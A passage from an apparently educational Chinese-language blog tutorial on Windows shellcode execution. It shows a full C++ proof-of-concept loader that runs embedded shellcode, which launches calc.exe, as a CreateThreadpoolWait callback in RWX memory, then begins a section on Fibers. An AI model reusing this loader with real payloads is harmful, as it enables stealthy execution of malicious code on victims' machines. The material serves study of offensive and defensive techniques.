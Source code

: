### POC
程式專案可以參考我的 GitHub [zeze-zeze/2021iThome](https://github.com/zeze-zeze/2021iThome/tree/master/Shellcode%E8%88%87%E4%BB%96%E7%9A%84%E5%BF%AB%E6%A8%82%E5%A4%A5%E4%BC%B4/ShellcodeLoaderCreateThreadpoolWait)。
```cpp=
#include <windows.h>

int main()
{
    char shellcode[] = "\x50\x53\x51\x52\x56\x57\x55\x89\xE5\x83\xEC\x18\x31\xF6\x56\x68\x78\x65\x63\x00\x68\x57\x69\x6E\x45\x89\x65\xFC\x64\x8B\x1D\x30\x00\x00\x00\x8B\x5B\x0C\x8B\x5B\x14\x8B\x1B\x8B\x1B\x8B\x5B\x10\x89\x5D\xF8\x8B\x43\x3C\x01\xD8\x8B\x40\x78\x01\xD8\x8B\x48\x24\x01\xD9\x89\x4D\xF4\x8B\x78\x20\x01\xDF\x89\x7D\xF0\x8B\x50\x1C\x01\xDA\x89\x55\xEC\x8B\x50\x14\x31\xC0\x8B\x7D\xF0\x8B\x75\xFC\x31\xC9\xFC\x8B\x3C\x87\x01\xDF\x66\x83\xC1\x08\xF3\xA6\x74\x0A\x40\x39\xD0\x72\xE5\x83\xC4\x24\xEB\x3F\x8B\x4D\xF4\x8B\x55\xEC\x66\x8B\x04\x41\x8B\x04\x82\x01\xD8\x31\xD2\x52\x68\x2E\x65\x78\x65\x68\x63\x61\x6C\x63\x68\x6D\x33\x32\x5C\x68\x79\x73\x74\x65\x68\x77\x73\x5C\x53\x68\x69\x6E\x64\x6F\x68\x43\x3A\x5C\x57\x89\xE6\x6A\x0A\x56\xFF\xD0\x83\xC4\x44\x5D\x5F\x5E\x5A\x59\x5B\x58\xC3";

    // 1. 用 VirtualAlloc 分配記憶體空間給 Shellcode，記憶體保護為 PAGE_EXECUTE_READWRITE，並把 Shellcode 放進這塊記憶體
    LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(Memory, shellcode, sizeof(shellcode));

    // 2. 建立一個 Event Object，其中 CreateEvent 第三個參數，初始狀態為 True，代表 Signaled
    HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);

    // 3. 建立一個 Pool Object，把 CreateThreadpoolWait 第一個參數，也就是 Callback 函數設為 Shellcode
    PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)Memory, NULL, NULL);

    // 4. 讓 Pool Object 等待 Event Object 後執行 Shellcode，但因為 Event Object 一開始狀態就是 Signaled，所以會直接執行 Shellcode
    SetThreadpoolWait(threadPoolWait, event, NULL);

    // 5. 用 Sleep 等待一秒確保 Callback 函數有被執行
    Sleep(1000);
    return 0;
}
```

## Fiber
### 原理
#### Fiber Object
[Fiber](https://docs.microsoft.com/en-us/windows/win32/procthread/using-fibers) 是一個執行單位，它可以用來做排程的工作。以前面 Fiber MSDN 的連結為例，首先呼叫 [ConvertThreadToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-convertthreadtofiber) 讓 Caller 和 Fiber 可以對 Fiber 進行排程，接著呼叫 [CreateFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createfiber) 建立兩個 Fiber，一個用來讀檔，另一個用來寫檔，把兩個 Fiber 開始執行的位址分別設在讀檔和寫檔的函數。當讀檔的 Fiber 讀完一部份的檔案內容後，呼叫 [SwitchToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-switchtofiber) 換到寫檔的 Fiber 寫入剛讀取的內容到另一個檔案。
